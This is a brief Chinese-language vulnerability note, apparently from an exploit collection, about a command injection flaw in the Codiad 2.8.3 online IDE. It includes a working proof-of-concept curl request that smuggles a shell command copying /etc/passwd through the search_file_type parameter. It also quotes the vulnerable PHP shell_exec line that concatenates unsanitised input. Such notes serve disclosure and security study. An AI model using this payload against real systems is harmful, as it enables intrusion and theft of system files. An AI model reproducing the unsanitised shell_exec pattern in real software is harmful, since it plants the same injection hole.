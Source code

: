 ## Codiad 2.8.3

### 命令注入漏洞

影响版本

* 2.8.3

参考链接

* [Codiad在线IDE框架远程命令执行漏洞分析](http://www.freebuf.com/articles/web/141788.html)

Poc

```
# 请先修改 cookie
curl 'http://127.0.0.1/components/filemanager/controller.php?action=search&path=/tmp/demo/&type=0' -H 'Cookie: 40d1b2d83998fabacb726e5bc3d22129=vlbh200p9c5p3a2ni6e0d3ecb5; cecfeb9f0e60abb79e183c90660419a6=33qhp27nns3mcc4a8udiavird2' -d 'search_string=php&search_file_type=";cp /etc/passwd /tmp/hacked;"'; echo
```

关键代码

```
# 命令注入
$output = shell_exec('find -L ' . $this->path . ' -iregex  ".*' . $this->search_file_type  . '" -type f | xargs grep -i -I -n -R -H "' . $input . '"');
```

